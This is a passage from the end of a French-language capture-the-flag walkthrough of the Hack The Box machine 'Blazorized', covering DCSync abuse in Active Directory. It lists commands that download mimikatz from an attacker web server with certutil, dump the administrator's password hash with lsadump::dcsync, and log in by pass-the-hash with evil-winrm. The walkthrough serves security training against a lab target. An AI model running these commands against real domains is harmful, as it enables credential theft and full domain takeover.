 > Le droit DCSync est une autorisation généralement accordée aux contrôleurs de domaine dans un environnement AD. Il est utilisé pour répliquer les informations de l'annuaire, y compris les informations d'identification des comptes, à travers le domaine. Lorsqu'un serveur dispose de ce droit, il peut effectuer des opérations de synchronisation d'annuaire pour maintenir la cohérence des données entre différents contrôleurs de domaine. Avec ce droit, nous pouvons prétendre être un contrôleur de domaine en envoyant une requête `DRSGetNCChanges` au contrôleur de domaine cible et quand celui-ci répond, il nous renvoie des informations sensibles, y compris les hachages de mots de passe pour les comptes demandés.

![DCSync Abuse](/images/HTB-Blazorized/DCSync_abuse.png)

```
certutil.exe -urlcache -split -f http://YOUR-IP:WEBSERVER_PORT/mimikatz.exe mimikatz.exe
```

Exécutez mimikatz avec `.\mimikatz.exe` et pour obtenir le hachage de l'administrateur, exécutez la commande suivante.

```
lsadump::dcsync /domain:blazorized.htb /user:administrator
```

![admin password hash](/images/HTB-Blazorized/admin-hash.png)

Enfin, nous nous connectons en tant que l'`Administrateur`avec le hash, et lisons le drapeau root.

```
 evil-winrm -i 10.10.11.22 -u Administrator -H "f55ed1465179ba374ec1cad05b34a5f3" 
```

![Root flag](/images/HTB-Blazorized/root_flag.png)

Vous trouverez ci-dessous quelques références qui m'ont été utiles. Je vous remercie d'avoir lu cet article et j'espère qu'il vous a été utile.

* [HackTricks - DCSync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
* [SPN-jacking](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/)
* [ASP.NET Core Blazor WebAssembly .NET runtime and app bundle caching](https://learn.microsoft.com/en-us/aspnet/core/blazor/host-and-deploy/webassembly-caching/?view=aspnetcore-8.0)
* [Blazor Web App structure](https://github.com/dotnet/AspNetCore.Docs/blob/main/aspnetcore/blazor/project-structure.md#blazor-web-app)
